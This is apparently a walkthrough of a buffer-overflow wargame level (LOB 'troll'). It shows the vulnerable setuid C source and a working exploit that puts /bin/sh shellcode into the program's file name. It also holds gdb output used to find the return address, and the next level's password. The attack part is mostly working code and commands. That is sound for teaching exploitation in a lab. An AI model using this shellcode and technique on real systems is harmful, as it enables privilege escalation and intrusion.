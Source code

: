 # Level8

## This level's goal
- LEVEL8 (orge -> troll) : check argc

***

```
[orge@localhost orge]$ bash2

[orge@localhost orge]$ ls -l
total 20
-rwsr-sr-x    1 troll    troll       12693 Mar  1  2010 troll
-rw-r--r--    1 root     root          772 Mar 29  2010 troll.c

[orge@localhost orge]$ cat troll.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        // here is changed
        if(argc != 2){
                printf("argc must be two!\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // one more!
        memset(argv[1], 0, strlen(argv[1]));
}
```

In the code, there is some changed code that you can only use argv[0] and argv[1]. Also, argv[1] will be reset.

So, you need to input the shell code in the filename and return the argv[0]'s address.

```
[orge@localhost orge]$ rename troll `python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'` troll
rename: renaming troll to 1ÀPh//shh/bin‰ãPS‰á‰Â°
                                                Í€ failed: No such file or directory
```

There is the error cuz \x2f will be read "/" in the shell code.

So, I will use another shell code.   
`\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81`


```
[orge@localhost orge]$ rename troll `python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` troll
[orge@localhost orge]$ mkdir tmp
[orge@localhost orge]$ cp `python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` tmp/
[orge@localhost orge]$ ./tmp/`python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+" "+"A"*44+"\xff\xff\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAÿÿÿ¿
Segmentation fault (core dumped)
[orge@localhost orge]$ gdb -c core -q
Core was generated by `./tmp/ë^1É±2€lÿ€éuöëèêÿÿÿ2ÁQi00tii0cjoŠäQTŠâš±
Î    '.
Program terminated with signal 11, Segmentation fault.
#0  0xbfffffff in ?? ()
0xbffffb60:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffb70:     0x742f2e00      0x902f706d      0x90909090      0x90909090
0xbffffb80:     0x90909090      0x90909090      0xeb909090      0xc9315e11
0xbffffb90:     0x6c8032b1      0x8001ff0e      0xf67501e9      0xeae805eb

[orge@localhost orge]$ ./`python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+" "+"A"*44+"\x80\xfb\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA€ûÿ¿
bash$ my-pass
euid = 508
aspirin
```
